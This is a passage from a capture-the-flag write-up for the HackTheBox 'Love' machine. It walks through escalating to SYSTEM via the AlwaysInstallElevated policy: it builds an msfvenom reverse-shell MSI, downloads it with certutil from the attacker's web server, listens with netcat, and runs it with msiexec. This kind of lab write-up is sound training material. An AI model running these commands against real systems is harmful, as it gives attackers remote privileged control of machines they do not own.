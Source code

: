 We can see that both entries are enabled:

![policy-24](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Love/img/policy-24.png)


This means that anytime we run an `.msi` installer it runs as the `LocalSystem`. 
Now all we need is some malicious `.msi` to run, lets use `msfvenom`:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.61 LPORT=443 -a x64 --platform windows -f msi > shell.msi
```

Now we need to transfer this over to the client. First start a python web server with:

```bash
python3 -m http.server 80
```

Then, from the target download the payload with:

```cmd
certutil -urlcache -f http://10.10.14.61/shell.msi shell.msi
```

Start the listener with:

```bash
rlwrap nc -lnvp 443
```

Execute the `.msi` file on the target with:

```cmd
msiexec /quiet /qn /i shell.msi
```

This should give you system access to the target:
